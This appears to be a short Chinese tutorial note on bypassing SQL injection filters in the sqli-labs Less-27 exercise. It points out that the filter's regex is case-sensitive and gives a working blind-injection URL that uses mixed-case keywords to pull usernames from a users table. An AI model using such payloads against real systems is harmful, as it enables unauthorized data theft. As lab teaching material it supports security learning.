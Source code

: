 

# 大小写绕过 

注意下面的过滤代码正则匹配模式并未忽略大小写

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675389702549-c8e6c3f5-5aaa-42e6-a5d4-394ead24b3b1.png)

使用盲注

```sql
http://d16.s.iproute.cn/Less-27/?id=0'||substr((sElect(group_concat(username))from(users)),1,1)='D'||'0
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1704874456979-344c10d4-2ffa-4e38-9879-e2f27f2605bd.png)
